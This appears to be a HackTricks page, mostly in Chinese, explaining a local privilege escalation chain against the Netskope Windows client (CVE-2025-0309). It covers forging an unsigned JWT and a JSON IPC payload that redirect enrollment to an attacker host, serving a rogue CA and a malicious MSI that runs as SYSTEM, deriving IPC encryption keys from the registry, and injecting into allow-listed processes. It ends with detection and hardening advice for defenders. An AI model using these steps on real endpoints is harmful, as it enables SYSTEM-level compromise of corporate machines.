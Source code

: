 # 滥用企业自动更新程序和特权 IPC (e.g., Netskope stAgentSvc)

{{#include ../../banners/hacktricks-training.md}}

本页概述了一类在企业端点代理和更新程序中发现的 Windows 本地提权链，这些组件暴露了低‑摩擦的 IPC 接口和特权更新流程。一个具有代表性的例子是 Netskope Client for Windows < R129 (CVE-2025-0309)，其中低权限用户可以强制使客户端注册到攻击者控制的服务器，然后交付被 SYSTEM 服务安装的恶意 MSI。

Key ideas you can reuse against similar products:
- 滥用特权服务的 localhost IPC 来强制重新注册或重新配置到攻击者服务器。
- 实现厂商的更新端点，部署一个伪造的 Trusted Root CA，并将更新程序指向一个恶意的“签名”包。
- 规避弱签名校验（CN allow‑lists）、可选的 digest flags 和宽松的 MSI properties。
- 如果 IPC 是“encrypted”，从注册表中以全局可读方式存储的机器标识符推导出 key/IV。
- 如果服务通过 image path/process name 限制调用者，注入到一个 allow‑listed 进程，或以 suspended 方式创建一个进程并通过最小的线程上下文修补来 bootstrap 你的 DLL。

---
## 1) 通过 localhost IPC 强制注册到攻击者服务器

许多代理包含一个以用户模式运行的 UI 进程，该进程通过 localhost TCP 使用 JSON 与 SYSTEM 服务通信。

Observed in Netskope:
- UI: stAgentUI (low integrity) ↔ Service: stAgentSvc (SYSTEM)
- IPC command ID 148: IDP_USER_PROVISIONING_WITH_TOKEN

Exploit flow:
1) 构造一个 JWT enrollment token，其 claims 控制后端主机（例如 AddonUrl）。使用 alg=None 以便不需要签名。
2) 发送 IPC 消息，调用 provisioning 命令并附带你的 JWT 和 tenant name：
```json
{
"148": {
"idpTokenValue": "<JWT with AddonUrl=attacker-host; header alg=None>",
"tenantName": "TestOrg"
}
}
```
3) 服务开始向你的恶意服务器请求 enrollment/config，例如：
- /v1/externalhost?service=enrollment
- /config/user/getbrandingbyemail

Notes:
- 如果调用者验证是基于路径/名称的，请从一个被允许的厂商二进制发起请求（参见 §4）。

---
## 2) Hijacking the update channel to run code as SYSTEM

一旦客户端与您的服务器通信，实现客户端期望的端点并将其引导到攻击者的 MSI。典型流程：

1) /v2/config/org/clientconfig → 返回 JSON 配置，设置非常短的更新器间隔，例如：
```json
{
"clientUpdate": { "updateIntervalInMin": 1 },
"check_msi_digest": false
}
```
2) /config/ca/cert → 返回一个 PEM CA 证书。服务会将其安装到 Local Machine Trusted Root store。
3) /v2/checkupdate → 提供指向恶意 MSI 和伪造版本的元数据。

Bypassing common checks seen in the wild:
- Signer CN allow‑list: 服务可能仅检查 Subject CN 是否等于 “netSkope Inc” 或 “Netskope, Inc.”。你的伪造 CA 可以为该 CN 签发一个 leaf 并签署 MSI。
- CERT_DIGEST property: 在 MSI 中包含名为 CERT_DIGEST 的良性属性。安装时没有强制执行。
- Optional digest enforcement: 配置标志（例如 check_msi_digest=false）会禁用额外的加密验证。

Result: SYSTEM 服务会从
C:\ProgramData\Netskope\stAgent\data\*.msi
安装你的 MSI，以 NT AUTHORITY\SYSTEM 身份执行任意代码。

---
## 3) Forging encrypted IPC requests (when present)

From R127, Netskope 将 IPC JSON 包装在看起来像 Base64 的 encryptData 字段中。逆向分析显示使用 AES，key/IV 来自任何用户都可读的注册表值：
- Key = HKLM\SOFTWARE\NetSkope\Provisioning\nsdeviceidnew
- IV  = HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProductID

攻击者可以复现该加密并以标准用户身份发送有效的加密命令。一般提示：如果代理突然“加密”其 IPC，请在 HKLM 下查找 device IDs、product GUIDs、install IDs 等作为密钥材料。

---
## 4) Bypassing IPC caller allow‑lists (path/name checks)

一些服务通过解析 TCP 连接的 PID，并将镜像路径/名称与位于 Program Files 下的 allow‑listed 厂商二进制文件（例如 stagentui.exe、bwansvc.exe、epdlp.exe）进行比较来认证对端。

两种实用的绕过方式：
- 对一个 allow‑listed 进程（例如 nsdiag.exe）进行 DLL 注入，并在其内部代理 IPC。
- 启动一个 allow‑listed 二进制并将其置于挂起状态，然后在不使用 CreateRemoteThread 的情况下引导你的代理 DLL（见 §5），以满足驱动强制的防篡改规则。

---
## 5) Tamper‑protection friendly injection: suspended process + NtContinue patch

产品通常会附带一个 minifilter/OB callbacks 驱动（例如 Stadrv）来从受保护进程的句柄中剥除危险权限：
- Process: 移除 PROCESS_TERMINATE、PROCESS_CREATE_THREAD、PROCESS_VM_READ、PROCESS_DUP_HANDLE、PROCESS_SUSPEND_RESUME
- Thread: 限制为 THREAD_GET_CONTEXT、THREAD_QUERY_LIMITED_INFORMATION、THREAD_RESUME、SYNCHRONIZE

一个可靠的遵守这些限制的用户模式加载器：
1) 使用 CREATE_SUSPENDED 创建一个厂商二进制的 CreateProcess。
2) 获取你仍被允许的句柄：对进程为 PROCESS_VM_WRITE | PROCESS_VM_OPERATION，对线程获取带有 THREAD_GET_CONTEXT/THREAD_SET_CONTEXT 的句柄（或者如果在已知的 RIP 上修补代码，则只需要 THREAD_RESUME）。
3) 覆盖 ntdll!NtContinue（或其他早期、必然已映射的 thunk）为一个微小的 stub，该 stub 调用 LoadLibraryW 加载你的 DLL 路径，然后跳回原处。
4) ResumeThread 触发你在进程内的 stub，从而加载你的 DLL。

因为你从未对一个已被保护的进程使用 PROCESS_CREATE_THREAD 或 PROCESS_SUSPEND_RESUME（你是创建它的），驱动的策略得以满足。

---
## 6) Practical tooling
- NachoVPN (Netskope plugin) 自动化生成 rogue CA、恶意 MSI 签名，并提供所需端点：/v2/config/org/clientconfig, /config/ca/cert, /v2/checkupdate。
- UpSkope 是一个定制的 IPC 客户端，用于构造任意（可选 AES‑encrypted）IPC 消息，并包含从 allow‑listed 二进制发起的 suspended‑process 注入。

---
## 7) Detection opportunities (blue team)
- 监控对 Local Machine Trusted Root 的新增。Sysmon + registry‑mod 事件（参见 SpecterOps 指南）效果良好。
- 报警由代理服务触发、从类似 C:\ProgramData\<vendor>\<agent>\data\*.msi 路径执行的 MSI。
- 审查代理日志以查找异常的 enrollment hosts/tenants，例如：C:\ProgramData\netskope\stagent\logs\nsdebuglog.log – 查找 addonUrl / tenant 异常以及 provisioning msg 148。
- 对不是预期签名二进制的本地 IPC 客户端，或起源于异常子进程树的客户端触发告警。

---
## Hardening tips for vendors
- 将 enrollment/update 主机绑定到严格的 allow‑list；在 client 代码中拒绝不受信任的域名。
- 使用操作系统原语对 IPC 对端进行认证（ALPC security、named‑pipe SIDs），而不是基于镜像路径/名称的检查。
- 不要将秘密材料放在所有用户可读的 HKLM；如果必须对 IPC 进行加密，应从受保护的密钥派生，或通过已认证的通道协商密钥。
- 将 updater 视为供应链攻击面：要求完整链到你控制的受信任 CA，针对固定密钥验证包签名，如果配置中禁用验证则采取 fail‑closed 策略。

## References
- [Advisory – Netskope Client for Windows – Local Privilege Escalation via Rogue Server (CVE-2025-0309)](https://blog.amberwolf.com/blog/2025/august/advisory---netskope-client-for-windows---local-privilege-escalation-via-rogue-server/)
- [NachoVPN – Netskope plugin](https://github.com/AmberWolfCyber/NachoVPN)
- [UpSkope – Netskope IPC client/exploit](https://github.com/AmberWolfCyber/UpSkope)
- [NVD – CVE-2025-0309](https://nvd.nist.gov/vuln/detail/CVE-2025-0309)

{{#include ../../banners/hacktricks-training.md}}
